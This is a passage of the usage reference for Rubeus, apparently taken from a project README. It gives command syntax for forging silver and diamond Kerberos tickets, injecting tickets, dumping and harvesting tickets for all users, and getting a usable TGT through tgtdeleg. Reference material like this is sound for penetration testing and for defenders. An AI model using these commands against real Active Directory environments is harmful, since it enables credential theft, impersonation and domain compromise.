 ```
        Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> </domain:DOMAIN> </sid:DOMAIN_SID> [/dc:DOMAIN_CONTROLLER] [/netbios:NETBIOS_DOMAIN] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/authdata] [/cname:CLIENTNAME] [/crealm:CLIENTDOMAIN] [/s4uproxytarget:TARGETSPN] [/s4utransitedservices:SPN1,SPN2,...] [/extendedupndns] [/nofullpacsig] [/printcmd] [outfile:FILENAME] [/ptt]

    Forge a diamond TGT by requesting a TGT based on a user password/hash:
        Rubeus.exe diamond /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/createnetonly:C:\Windows\System32\cmd.exe] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/krbkey:HASH] [/ticketuser:USERNAME] [/ticketuserid:USER_ID] [/groups:GROUP_IDS] [/sids:EXTRA_SIDS]

    Forge a diamond TGT by requesting a TGT using a PCKS12 certificate:
        Rubeus.exe diamond /user:USER /certificate:C:\temp\leaked.pfx </password:STOREPASSWORD> [/createnetonly:C:\Windows\System32\cmd.exe] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/krbkey:HASH] [/ticketuser:USERNAME] [/ticketuserid:USER_ID] [/groups:GROUP_IDS] [/sids:EXTRA_SIDS]

     Forge a diamond TGT by requesting a TGT using tgtdeleg:
        Rubeus.exe diamond /tgtdeleg [/createnetonly:C:\Windows\System32\cmd.exe] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/krbkey:HASH] [/ticketuser:USERNAME] [/ticketuserid:USER_ID] [/groups:GROUP_IDS] [/sids:EXTRA_SIDS]


 Ticket management:

    Submit a TGT, optionally targeting a specific LUID (if elevated):
        Rubeus.exe ptt </ticket:BASE64 | /ticket:FILE.KIRBI> [/luid:LOGINID]

    Purge tickets from the current logon session, optionally targeting a specific LUID (if elevated):
        Rubeus.exe purge [/luid:LOGINID]

    Parse and describe a ticket (service ticket or TGT):
        Rubeus.exe describe </ticket:BASE64 | /ticket:FILE.KIRBI> [/servicekey:HASH] [/krbkey:HASH] [/asrepkey:HASH] [/serviceuser:USERNAME] [/servicedomain:DOMAIN] [/desplaintext:FIRSTBLOCKTEXT]


 Ticket extraction and harvesting:

    Triage all current tickets (if elevated, list for all users), optionally targeting a specific LUID, username, or service:
        Rubeus.exe triage [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM]

    List all current tickets in detail (if elevated, list for all users), optionally targeting a specific LUID:
        Rubeus.exe klist [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM]

    Dump all current ticket data (if elevated, dump for all users), optionally targeting a specific service/LUID:
        Rubeus.exe dump [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM] [/nowrap]

    Retrieve a usable TGT .kirbi for the current user (w/ session key) without elevation by abusing the Kerberos GSS-API, faking delegation:
        Rubeus.exe tgtdeleg [/target:SPN]
```